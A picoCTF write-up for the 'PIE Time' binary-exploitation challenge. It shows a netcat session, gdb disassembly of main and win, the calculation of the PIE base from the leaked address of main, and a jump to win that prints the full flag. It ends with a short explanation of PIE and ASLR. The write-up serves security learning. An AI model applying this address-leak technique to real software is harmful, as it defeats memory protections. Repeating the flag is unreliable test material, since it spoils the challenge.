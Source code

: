 # [Pie Time (Binary Exploitation, Easy)](https://play.picoctf.org/practice/challenge/490) - Position-Independent Executable & Address Space Layout Randomization

- Description: Can you try to get the flag? Beware we have PIE! Additional details will be available after launching your challenge instance.
- Hints: Can you figure out what changed between the address you found locally and in the server output?
- Solution:
  ```bash
  schufot-picoctf@webshell:~$ nc rescued-float.picoctf.net 52049
  Address of main: 0x624b67ab833d
  Enter the address to jump to, ex => 0x12345:
  ```
  ```bash
  schufot-picoctf@webshell:~$ file vuln
  vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,     BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
  ```
  ```bash
  schufot-picoctf@webshell:~$ gdb vuln
  GNU gdb (GDB) 16.3
  Copyright (C) 2024 Free Software Foundation, Inc.
  License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
  This is free software: you are free to change and redistribute it.
  There is NO WARRANTY, to the extent permitted by law.
  Type "show copying" and "show warranty" for details.
  This GDB was configured as "x86_64-pc-linux-gnu".
  Type "show configuration" for configuration details.
  For bug reporting instructions, please see:
  <https://www.gnu.org/software/gdb/bugs/>.
  Find the GDB manual and other documentation resources online at:
      <http://www.gnu.org/software/gdb/documentation/>.
  
  For help, type "help".
  Type "apropos word" to search for commands related to "word"...
  Reading symbols from vuln...
  
  This GDB supports auto-downloading debuginfo from the following URLs:
    <https://debuginfod.archlinux.org>
  Enable debuginfod for this session? (y or [n]) y
  Debuginfod has been enabled.
  To make this setting permanent, add 'set debuginfod enabled on' to .gdbinit.
  (No debugging symbols found in vuln)
  (gdb) 
  (gdb) disass win
  Dump of assembler code for function win:
     0x00000000000012a7 <+0>:     endbr64
     0x00000000000012ab <+4>:     push   %rbp
     0x00000000000012ac <+5>:     mov    %rsp,%rbp
     0x00000000000012af <+8>:     sub    $0x10,%rsp
     0x00000000000012b3 <+12>:    lea    0xd74(%rip),%rdi        # 0x202e
     0x00000000000012ba <+19>:    call   0x1100 <puts@plt>
     0x00000000000012bf <+24>:    lea    0xd71(%rip),%rsi        # 0x2037
     0x00000000000012c6 <+31>:    lea    0xd6c(%rip),%rdi        # 0x2039
     0x00000000000012cd <+38>:    call   0x1170 <fopen@plt>
     0x00000000000012d2 <+43>:    mov    %rax,-0x8(%rbp)
     0x00000000000012d6 <+47>:    cmpq   $0x0,-0x8(%rbp)
     0x00000000000012db <+52>:    jne    0x12f3 <win+76>
     0x00000000000012dd <+54>:    lea    0xd5e(%rip),%rdi        # 0x2042
     0x00000000000012e4 <+61>:    call   0x1100 <puts@plt>
     0x00000000000012e9 <+66>:    mov    $0x0,%edi
     0x00000000000012ee <+71>:    call   0x1190 <exit@plt>
     0x00000000000012f3 <+76>:    mov    -0x8(%rbp),%rax
     0x00000000000012f7 <+80>:    mov    %rax,%rdi
     0x00000000000012fa <+83>:    call   0x1140 <fgetc@plt>
     0x00000000000012ff <+88>:    mov    %al,-0x9(%rbp)
     0x0000000000001302 <+91>:    jmp    0x131e <win+119>
     0x0000000000001304 <+93>:    movsbl -0x9(%rbp),%eax
     0x0000000000001308 <+97>:    mov    %eax,%edi
     0x000000000000130a <+99>:    call   0x10f0 <putchar@plt>
     0x000000000000130f <+104>:   mov    -0x8(%rbp),%rax
     0x0000000000001313 <+108>:   mov    %rax,%rdi
     0x0000000000001316 <+111>:   call   0x1140 <fgetc@plt>
     0x000000000000131b <+116>:   mov    %al,-0x9(%rbp)
     0x000000000000131e <+119>:   cmpb   $0xff,-0x9(%rbp)
     0x0000000000001322 <+123>:   jne    0x1304 <win+93>
     0x0000000000001324 <+125>:   mov    $0xa,%edi
     0x0000000000001329 <+130>:   call   0x10f0 <putchar@plt>
     0x000000000000132e <+135>:   mov    -0x8(%rbp),%rax
     0x0000000000001332 <+139>:   mov    %rax,%rdi
     0x0000000000001335 <+142>:   call   0x1110 <fclose@plt>
     0x000000000000133a <+147>:   nop
     0x000000000000133b <+148>:   leave
     0x000000000000133c <+149>:   ret
  End of assembler dump.
  (gdb) disass main
  Dump of assembler code for function main:
     0x000000000000133d <+0>:     endbr64
     0x0000000000001341 <+4>:     push   %rbp
     0x0000000000001342 <+5>:     mov    %rsp,%rbp
     0x0000000000001345 <+8>:     sub    $0x20,%rsp
     0x0000000000001349 <+12>:    mov    %fs:0x28,%rax
     0x0000000000001352 <+21>:    mov    %rax,-0x8(%rbp)
     0x0000000000001356 <+25>:    xor    %eax,%eax
     0x0000000000001358 <+27>:    lea    -0xd6(%rip),%rsi        # 0x1289 <segfault_handler>
     0x000000000000135f <+34>:    mov    $0xb,%edi
     0x0000000000001364 <+39>:    call   0x1150 <signal@plt>
     0x0000000000001369 <+44>:    mov    0x2ca0(%rip),%rax        # 0x4010 <stdout@@GLIBC_2.2.5>
     0x0000000000001370 <+51>:    mov    $0x0,%ecx
     0x0000000000001375 <+56>:    mov    $0x2,%edx
     0x000000000000137a <+61>:    mov    $0x0,%esi
     0x000000000000137f <+66>:    mov    %rax,%rdi
     0x0000000000001382 <+69>:    call   0x1160 <setvbuf@plt>
     0x0000000000001387 <+74>:    lea    -0x51(%rip),%rsi        # 0x133d <main>
     0x000000000000138e <+81>:    lea    0xcbf(%rip),%rdi        # 0x2054
     0x0000000000001395 <+88>:    mov    $0x0,%eax
     0x000000000000139a <+93>:    call   0x1130 <printf@plt>
     0x000000000000139f <+98>:    lea    0xcca(%rip),%rdi        # 0x2070
     0x00000000000013a6 <+105>:   mov    $0x0,%eax
     0x00000000000013ab <+110>:   call   0x1130 <printf@plt>
     0x00000000000013b0 <+115>:   lea    -0x18(%rbp),%rax
     0x00000000000013b4 <+119>:   mov    %rax,%rsi
     0x00000000000013b7 <+122>:   lea    0xce0(%rip),%rdi        # 0x209e
     0x00000000000013be <+129>:   mov    $0x0,%eax
     0x00000000000013c3 <+134>:   call   0x1180 <__isoc99_scanf@plt>
     0x00000000000013c8 <+139>:   mov    -0x18(%rbp),%rax
     0x00000000000013cc <+143>:   mov    %rax,%rsi
     0x00000000000013cf <+146>:   lea    0xccc(%rip),%rdi        # 0x20a2
     0x00000000000013d6 <+153>:   mov    $0x0,%eax
     0x00000000000013db <+158>:   call   0x1130 <printf@plt>
     0x00000000000013e0 <+163>:   mov    -0x18(%rbp),%rax
     0x00000000000013e4 <+167>:   mov    %rax,-0x10(%rbp)
     0x00000000000013e8 <+171>:   mov    -0x10(%rbp),%rax
     0x00000000000013ec <+175>:   call   *%rax
     0x00000000000013ee <+177>:   mov    $0x0,%eax
     0x00000000000013f3 <+182>:   mov    -0x8(%rbp),%rdx
     0x00000000000013f7 <+186>:   xor    %fs:0x28,%rdx
     0x0000000000001400 <+195>:   je     0x1407 <main+202>
     0x0000000000001402 <+197>:   call   0x1120 <__stack_chk_fail@plt>
     0x0000000000001407 <+202>:   leave
     0x0000000000001408 <+203>:   ret
  End of assembler dump.
  ```
  - Runtime address of main: 0x624b67ab833d
  - Offset of main in binary = 0x133d
  - Offset of win in binary = 0x12a7
  - PIE base address: PIE_BASE = 0x624b67ab833d - 0x133d = 0x624b67ab7000
  - Address of win: WIN_ADDR = PIE_BASE + 0x12a7 = 0x624b67ab7000 + 0x12a7 = 0x624b67ab82a7
  ```bash
  schufot-picoctf@webshell:~$ nc rescued-float.picoctf.net 52049
  Address of main: 0x624b67ab833d
  Enter the address to jump to, ex => 0x12345: 0x624b67ab82a7
  Your input: 624b67ab82a7
  You won!
  picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}
  ```
- Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}`
- Explanation:
  - PIE (Position-Independent Executable): Security feature that compiles binaries in a way that allows the entire program to be loaded at a random address in memory
    - Every function (like main() or win()) is placed at an offset relative to the base address of the binary
    - At runtime, this base address is randomized
  - Address Space Layout Randomization (ASLR): Security mechanism that randomizes the memory layout of processes to prevent attacks like return-to-libc or ROP (Return-Oriented Programming)
    - With ASLR + PIE: The actual address of main() will change each time the program runs, but the offset of main() and win() relative to the binary base stays the same
